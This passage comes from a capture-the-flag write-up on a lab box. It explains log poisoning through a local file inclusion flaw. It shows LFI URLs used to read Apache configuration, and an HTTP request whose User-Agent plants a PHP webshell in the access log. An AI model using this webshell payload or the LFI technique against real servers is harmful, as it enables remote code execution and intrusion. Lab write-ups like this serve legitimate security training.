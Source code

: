 Log poisoning is a open route, and a good one to pursue, given the box’s name.

#### Theory

The idea behind log poisoning is to put some php into the logs, and then load them where php will be executed. If we look at the access log, we see that on each visit to the site, there’s an entry written with the url visited and the user-agent string of the browser visiting.

The simplest case would be to change our user-agent string such that it includes php, and then include that log file with our LFI. We could also poison the url field, but visiting something like `http://10.10.10.84/browse.php?not_an_arg=[php code]`. As long as we can get our php written into the log, we will succeed.

#### Finding the Logs

If the user attempts to grab a file that doesn’t exist, there’s an error page that looks like this:
![](https://0xdfimages.gitlab.io/img/poison_error.png)

This reveals the path to the current wwwroot as: `/usr/local/www/apache24/data/browse.php`

Next, we’ll want to find the `httpd.conf` file, which will tell us where the log files are located. We’ll find that at `/usr/local/etc/apache24/httpd.conf`, and if we get that file (using the url `http://10.10.10.84/browse.php?file=/usr/local/etc/apache24/httpd.conf`), we’ll see the locations of the access and error logs:

```

ErrorLog "/var/log/httpd-error.log"
CustomLog "/var/log/httpd-access.log" combined

```

#### Log Poisoning

Lines in our access log look like this:

```
10.10.14.4 - - [19/Mar/2018:13:28:50 +0100] "GET /HNAP1 HTTP/1.1" 404 203 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"

```

We’ll modify our user-agent using burp to add a webshell. I always like to add a marker here (like “0xdf:”), so that as the log file grows, we can easily locate our output, either with ctrl-f, or using curl and grep.

```

GET / HTTP/1.1
Host: 10.10.10.84
User-Agent: 0xdf: <?php system($_GET['c']); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

```
